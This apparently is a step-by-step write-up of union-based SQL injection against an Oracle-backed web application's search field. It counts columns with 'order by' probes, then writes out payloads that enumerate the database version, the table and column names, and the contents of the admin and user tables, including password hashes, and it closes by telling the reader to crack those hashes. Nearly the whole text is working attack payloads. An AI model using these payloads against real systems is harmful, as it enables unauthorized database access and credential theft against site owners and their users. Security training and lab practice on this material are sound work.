 | Syntax         | Description      |     |
| -------------- | ---------------- | --- |
| ' order by 1-- | no error message |     |
| ' order by 5-- | error message    |     |
| ' order by 4-- | error message    |     |
| ' order by 3-- | no error message |     |

So as of now we know that 3 is the last column which worked, let us prepare the union select statement

```
' union select 1,2,3--
```

Error Message:
>Something went wrong with the search: java.sql.SQLSyntaxErrorException: ORA-00923: FROM keyword not found where expected

>Unlike MySQL Oracle do not allow select statement without from clause. As we have prepared the Union select statement our next task is to check which column is getting printed that we can do by random testing each column one by one by printing the current database name

Testing for columns:
```SQL
' union select 1,2,3 from dual--
```

```SQL
' union select null,null,null from dual--
```

```SQL
' union select '1111',null,null from dual--
```

```SQL
' union select null,'2222',null from dual--
``` 

```SQL
' union select null,null,'3333' from dual--
```

```SQL
' union select user,null,null from dual--
``` 

Finding the version:
```SQL
' union select (select banner from v$version where rownum=1),null,null from dual--
``` 

Finding all table names:
```SQL
' union select table_name,null,null from all_tables--
```

Dumping columns of found table:
```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_ADMINS'--
```

Dumping values of found columns:
```SQL
' union select ADMIN_ID||ADMIN_NAME||PASSWORD,null,null from WEB_ADMINS--
```

```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_CONTENT'--
```

```SQL
' union select AUTHOR||CONTENT_ID||RELEASEYEAR||TITLE,null,null from WEB_CONTENT--
```

```SQL
' union select column_name,null,null from all_tab_columns where table_name='WEB_USERS'--
```

```SQL
' union select PASSWORD||USER_ID||USER_NAME,null,null from WEB_USERS--
```

Take hash value and crack!

